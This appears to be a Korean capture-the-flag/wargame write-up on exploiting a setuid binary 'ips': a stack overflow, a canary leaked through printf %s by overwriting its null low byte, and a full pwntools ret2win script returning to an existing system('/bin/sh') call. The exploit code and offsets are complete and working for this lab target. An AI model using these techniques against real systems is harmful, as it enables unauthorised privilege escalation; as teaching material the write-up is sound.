




> 목표: setuid 바이너리 `ips`(소유자 = 다음 유저 `Crisis_at_the_Vault`)를 익스플로잇해서
그 유저 권한의 셸을 얻는다. → `uid=506(Crisis_at_the_Vault)` 획득.
> 

이 레벨의 한 줄 교훈:

> **가젯으로 `system`의 인자를 못 만든다는 걸 확정 → 그럼 바이너리가 이미 만들어 둔
`system("/bin/sh")` 호출부가 어딘가 있다 → 리턴주소를 거기로 돌린다 (ret2win).**
> 

---

## 1. 대상 분석

### 1-1. 코드 분석 (IPS)

프로그램은 "Bunker Control System"이고, `main`이 제일 먼저 `IPS()`로 인증을 받는다.
이번 문제의 취약점은 전부 이 `IPS()` 안에 있다. 

```c
int IPS() {
    char username[?];        // 스택: rbp-0x80
    char passwd[?];          // 스택: rbp-0x40
    long canary = fs:0x28;   // 스택: rbp-0x8  
    int  granted = 0;        // rbp-0x8c
    int  count   = 0;        // rbp-0x94

    char *auth = malloc(100);
    strcpy(auth, "admin");             // auth->username = "admin"
    generateRandomCode(auth + 0x32);   // auth->passwd  = 랜덤코드 

    while (count <= 2 && !granted) {
        print("...prompt...");
        read(0, username, 100);        // 버퍼는 작은데 100바이트를 읽음 -> 오버플로우
        username[strcspn(username,"\n")] = 0;

        read(0, passwd, 100);          // 여기서 오버플로우로 리턴주소까지 도달 가능
        passwd[strcspn(passwd,"\n")] = 0;

        printf("Your account: %s\n", username);   // %s 정보 유출 (카나리 leak에 사용)

        if (!strncmp(passwd, auth->passwd, 8) && !strncmp(username, auth->username, 8)) {
            granted = 1;
            puts("...success...");
            system("/bin/sh");          // 인증 성공 시 셸을 줌 — 0x401981
            return 0;
        }
        puts("Incorrect code. Try again.");
        count++;
    }
    // 3번 실패하면:
    puts("3 incorrect code attempts");
    for (int i = 30; i > 0; i--) { printf("...%d...", i); sleep(1); }  // 30초 카운트다운
    return -1;                          // 여기서 leave; ret -> 덮은 리턴주소로 점프
}
```

- **오버플로우**: 버퍼는 작은데 `read(0, buf, 100)`으로 100바이트를 받는다.
특히 `passwd`(rbp-0x40)에서 100바이트를 받으면 **카나리(rbp-0x8)와 리턴주소(rbp+0x8)까지
덮을 수 있다**.
- **leak 수단**: `printf("Your account: %s", username)`. `%s`는 **널 바이트를 만날 때까지**
메모리를 쭉 출력한다. 이걸로 카나리를 leak 할 수 있을 것이다.
- **Win 코드**: 인증에 성공하면 `system("/bin/sh")`를 호출한다. 정상적인 방법으로는 비번을 모르니 얻을 수 없지만, **오버플로우로 리턴주소를 이 지점으로 돌리면** 비번 없이 셸 획득이 가능하다.
- **리턴 타이밍**: 함수가 `ret`하는 건 "3번 실패 후"뿐이다 (성공은 비번을 모르니 불가).
그래서 **마지막(3번째) 시도에 오버플로우 payload를 심고**, 3번 실패 → 30초 대기 → `ret` →
우리가 덮은 주소로 점프, 이 순서가 된다.

### 1-2. 보호기법 확인 (checksec)



- **Canary** → 리턴주소를 덮으려면 그 사이의 카나리를 원래 값으로 유지해야 한다 → **leak 필수**.
- **NX** → 스택에 쉘코드를 넣어 실행하는 건 불가 → **기존 코드 재사용**만 가능.
- **No PIE** → `0x401981`(승리 코드), `0x402576`("/bin/sh") 같은 주소가 **매 실행 고정** →
그냥 숫자로 박아 쓸 수 있다. 이게 ret2win을 가능하게 한 결정적 조건.
- **SHSTK(미강제)** → 만약 강제됐었다면 `ret`로 리턴주소를 바꾸는 순간 CPU가 "쉐도우 스택 불일치"로
실패.

---

## 2. 익스플로잇 아이디어 RET2WIN

(사실 처음엔 win 코드를 못봐서, ret2libc로 진행하다가 계속 막혔었다. 코드 분석을 다시 하던 중 win 코드를 발견했다.) 

**2-1. strings — system·/bin/sh 존재 확인**

bash

```bash
strings ./ips | grep -iE '/bin|/sh|system'
```



→ `/bin/sh` 와 `system@GLIBC_2.2.5`(import됨) 둘 다 존재한다.

**2-2. nm — 숨은 win 함수 탐색**

bash

```bash
nm ./ips | grep -iw t
```



→ `IPS`, `main`, `performSystemCheck`, `printStatus` 등 함수 목록. (명백한 `shell`/`win`은 안보인다. 숨어져 있었기 때문)

**2-3. disass — 인증 성공 분기 직접 확인**`IPS`를 디스어셈블해서 **"granted=1 직후"**를 보니:

```nasm
401981:  lea  rax,[rip+0xbee]   # 402576   ; rax = "/bin/sh" 주소
401988:  mov  rdi,rax                       ; rdi = "/bin/sh" <-코드가 알아서 인자 세팅
40198b:  call 401150                        ; system("/bin/sh")
```

> `objdump -d ./ips | grep 'call.*<system'`은 아무것도 안 나왔다. objdump가 `call 401150`을
`<system@plt>`가 아니라 `<_init+0x150>`으로 라벨링해서 안 나온 것이다. 
실제`call 401150`이 system PLT진입점 즉 system()호출이다.
> 

### 전체 익스플로잇 계획 (3번의 입력)

카나리를 넘어 리턴주소를 덮어야 하므로 카나리를 먼저 알아야 하고, 리턴은 "3번 실패" 후에만
일어난다. 

```
시도 1 (카나리 leak): printf %s가 카나리까지 leak 하도록 입력 배치 → 카나리 leak
시도 2 (아무거나 입력): 아무런 값 → 실패 카운트만 올림 (count=2)
시도 3 (오버플로우) : passwd = [56 더미][leak한 카나리][가짜 rbp][0x401981]
                     → 3번째 실패 → 루프 탈출 → 30초 카운트다운
                     → 카나리 검사 통과(복원했으니) → leave;ret → 0x401981 → system("/bin/sh")
```

---

## 3. 필요한 정보 확인

### 3-1. 오프셋 (passwd → 카나리 56 / 리턴 72)

`IPS`를 디스어셈블해서 버퍼·카나리·리턴주소의 rbp 기준 위치를 읽는다.

```bash
gdb -q ./ips -ex 'disass IPS' -ex quit | grep -iE 'rbp|read|lea|fs:0x28'
```

```nasm
mov  rax, QWORD PTR fs:0x28
mov  QWORD PTR [rbp-0x8], rax     ; 카나리 = rbp-0x8
lea  rax, [rbp-0x80]              ; username 버퍼 = rbp-0x80
lea  rax, [rbp-0x40]              ; passwd  버퍼 = rbp-0x40
```

계산:

```
카나리까지 = (rbp-0x8) - (rbp-0x40) = 0x38 = 56
리턴까지   = (rbp+0x8) - (rbp-0x40) = 0x48 = 72
```

**확인 결과, 카나리 도달 offset은 56, 리턴 도달 offset 72이다.** 

### 3-2. WIN 호출부 = 0x401981

바이너리에 이미 있는 `system("/bin/sh")` 호출부. `IPS` 디스어셈블에서 `lea [binsh]; mov rdi,rax; call system` 3줄을 찾는다(2-2 참조).

```bash
gdb -q ./ips -ex 'disass IPS' -ex quit | grep -A2 '402576'
```

```nasm
401981:  lea  rax,[rip+0xbee]   # 402576   ← 여기로 리턴주소를 돌린다
401988:  mov  rdi,rax
40198b:  call 401150
```

→ **WIN = 0x401981.** (리턴주소를 이 값으로 덮으면 system("/bin/sh") 실행한다.)

### 3-3. 카나리 leak

`username`(rbp-0x80)과 `passwd`(rbp-0x40)는 **딱 붙어 있다**(64바이트 간격). `printf`는 `username`
부터 **널을 만날 때까지** 출력한다. 그래서 둘 다 널 없이 채우고, **카나리 최하위 바이트(원래
0x00)를 0x01로 덮어** `%s`가 카나리까지 넘어가게 만든다.

> 리눅스 스택 카나리는 8바이트인데 **최하위 바이트(byte0)가 항상 널(0x00)** 이다.  문자열 함수(`%s`, `strcpy` 등)는 널에서 멈추므로, 이를 이용해 카나리를 문자열로 유출/복사하려 해도 **바이트0의 널에 막히게 만들어 유출/복사 할 수 없게끔 하기 위해 스택 카나리의 최하위 바이트는 항상 널값이다. 
그래서, 이 카나리를 알아내기 위해 널값(0x00)을 0x01로 덮는것이다.**
> 
- `username = 'A'*64` → rbp-0x80 ~ rbp-0x40 을 'A'로 채운다(NULL 없음)
- `passwd = 'B'*56 + '\x01'` → rbp-0x40 ~ rbp-0x8 을 'B'로 채우고, **57번째 바이트가
카나리[0]에 0x01을 덮어쓴다.**

그러면 `%s` 출력 = `AAAA…(64) BBBB…(56) \x01 [카나리 1~7바이트]` 

```
leak:   A×64        B×56       \x01   canary[1..7]  ...(saved rbp 하위바이트)...
index:  0 ───── 63  64 ──── 119  120   121 ─── 127
```

카나리는 8바이트인데 바이트0은 항상 0x00이므로, **leak된 1~7바이트 앞에 0x00을 붙이면** 복원된다. 쉽게 말해, 맨 처음 글자인 0을 제외한 뒤의 카나리값이 구해진다.

```python
canary = u64(b'\x00' + leak_bytes[121:128])
```

(121 = 64 + 56 + 1 = 'A'64 + 'B'56 + '\x01' 다음)

실제 실행: `canary = 0xbe9d330991c84a00` (끝 `00` = 바이트0. 리틀엔디안 고려하면 정상이다. 물론 이 카나리 값은 매번 바뀐다. 그러므로 카나리를 leak할 수 있는 로직을 익스플로잇 코드에 녹여내야한다).

> **leak 길이 < 128이면 재실행 유도**
카나리 1~7바이트 중 하나가 만약 `0x00`이면 `%s`가 거기서 끊겨 leak이 특정 부분에서 끊긴다.
이를 방지하기 위해 재실행을 유도한다.
> 

---

## 4. 최종 Exploit

```python
from pwn import *
import time

e = ELF('./ips', checksec=False)
context.arch = 'amd64'
context.log_level = 'info'

WIN = 0x401981           # lea rax,[/bin/sh] ; mov rdi,rax ; call system

p = process('./ips')
p.recvrepeat(1.0)        # 시작 배너 비우기

def attempt(user, pw, sep=0.5):
    p.send(user)         # username만 먼저 보냄 -> 첫 read(username)에만 들어가게끔
    time.sleep(sep)      # 두 read() 를 시간차로 분리
    p.send(pw)

# 1) 카나리 leak
attempt(b'A'*64, b'B'*56 + b'\x01')
p.recvuntil(b'Your account: ')
data = p.recvline()
canary = u64(b'\x00' + data[121:128])
log.success('canary = %#018x' % canary)

# 2) 실패 1회 소모 (count -> 2)
attempt(b'A', b'A')
p.recvuntil(b'Your account: '); p.recvline()

# 3) 오버플로우 -> ret2win
payload  = b'A'*56           # passwd[0..55]
payload += p64(canary)       # [rbp-0x8]  카나리 복원
payload += b'A'*8            # [rbp+0x0]  saved rbp (아무 8바이트, system이 곧 덮음)
payload += p64(WIN)          # [rbp+0x8]  리턴주소 → system("/bin/sh")
attempt(b'A', payload)

p.interactive()              # 30초 카운트다운 후 셸(IPS 3번 틀렸으므로)
```

### Exploit 구조

```
[ 'A' x 56 ][ p64(canary) ][ p64('A' x 8) ][ p64(0x401981) ]
   56바이트      8 (rbp-0x8)     8 (rbp+0x0)      8 (rbp+0x8=리턴)
= 총 80바이트  (read 한도 100 안에 들어감)
```

- **id, pw 입력 분리**: `read`는 줄 단위가 아니라 있는 만큼 읽는다. username과 passwd를
한꺼번에 보내면 첫 `read(100)`이 둘 다 입력을 받아 100 크기를 넘겨 문제가 생긴다. → `send → sleep(0.5) → send`로 시간차를 둬, 입력을 안전하게 분리.

---

## 5. 클리어



---
